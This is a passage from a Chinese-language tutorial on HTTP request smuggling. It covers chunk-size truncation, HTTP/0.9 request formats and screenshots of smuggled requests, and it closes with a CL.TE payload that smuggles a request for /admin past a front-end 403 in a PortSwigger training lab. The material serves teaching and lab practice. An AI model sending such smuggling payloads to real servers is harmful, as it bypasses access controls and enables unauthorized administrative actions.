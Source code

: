
某些中间件在解析块大小的时候，会将长度块大小长度进行截断，比如这里表现为只取`'0000000000000000000000000000042`为`00000000000000000`，这样就会认为这是两个请求了，第一个请求的块大小为0，第二个就会请求`/tmp`，就导致了 HTTP Smuggling

#### HTTP/0.9

HTTP/1.1

```http
GET /foo HTTP/1.1\r\n
Host: example.com\r\n
```

HTTP/1.0

```http
GET /foo HTTP/1.0\r\n
\r\n
```

HTTP/0.9

```http
GET /foo\r\n
```

HTTP/0.9请求包与响应包是都没有 headers 的概念的，body是文本流形式，所以理所当然的尝试攻击

![image-20220319160208757](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220319160208757.png)

图中走私的部分并不是HTTP/0.9的标准格式但由于一些中间件虽然已经不支持直接解析HTTP/0.9的标准格式，但是还可能存在解析这种指定 HTTP version 的情况

![image-20220319161329950](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220319161329950.png)

![image-20220319161723973](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220319161723973.png)

[视频演示-link](https://www.youtube.com/watch?v=lY_Mf2Fv7kI)

### 实际用例

#### 绕过前端安全控制

https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

我们需要获取admin权限并删除carlos用户；直接访问/admin提示403，尝试smuggling

```http
POST / HTTP/1.1
Host: acf91f491f39aa83ca24ee71001b00aa.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 28
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1


```
